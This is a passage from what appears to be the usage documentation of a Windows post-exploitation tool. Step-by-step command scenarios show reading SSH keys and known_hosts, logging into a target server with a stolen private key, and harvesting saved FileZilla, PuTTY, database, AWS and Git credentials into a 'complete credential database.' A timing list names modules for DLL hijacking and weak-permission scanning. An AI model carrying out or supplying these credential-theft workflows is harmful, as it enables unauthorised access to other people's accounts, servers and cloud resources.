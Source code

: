```bash
priv_read_file C:\Users\Administrator\.ssh\known_hosts
# Result: List of previously connected servers

# 7. Use the stolen key to connect
ssh -i id_rsa administrator@target-server.com
# Result: SSH access to remote servers without password
```

---

### Scenario 8: Admin File Access - Application Credentials (New!)

```bash
# Complete workflow for extracting application credentials

# 1. List common credential locations
priv_list_dir "C:\Users\John\AppData\Roaming"
# Result: Shows application folders (FileZilla, PuTTY, etc.)

# 2. Read FileZilla saved sites (FTP credentials)
priv_read_file "C:\Users\John\AppData\Roaming\FileZilla\sitemanager.xml"
# Result: XML with FTP server credentials in plaintext

# 3. Read PuTTY saved sessions
priv_list_dir "HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions"
# Result: List of saved SSH sessions

# 4. Read database connection strings
priv_read_file "C:\Program Files\MyApp\config\database.config"
# Result: Database credentials (server, username, password)

# 5. Read .aws credentials
priv_read_file C:\Users\John\.aws\credentials
# Result: AWS access keys and secrets

# 6. Read .git config
priv_read_file C:\Projects\MyRepo\.git\config
# Result: Git remote URLs (may contain credentials)

# 7. Compile all credentials for offline analysis
# Result: Complete credential database for target user
```

---

## Performance Impact

- **CPU**: Minimal to Low (service queries can be intensive)
- **Memory**: Low (output can be moderate)
- **Disk**: Read-only operations mostly
- **Network**: None (all local operations)
- **Time**:
  - priv_check: < 1 second
  - priv_enum: 5-15 seconds
  - priv_services: 2-5 seconds
  - priv_tasks: 3-8 seconds
  - priv_sensitive: 10-60 seconds (file searches in user directories)
  - priv_weak_perms: 10-30 seconds (service enumeration)
  - priv_dll_hijack: 30-120 seconds (searches multiple directories)
  - priv_scan: 60-180 seconds (comprehensive scan)

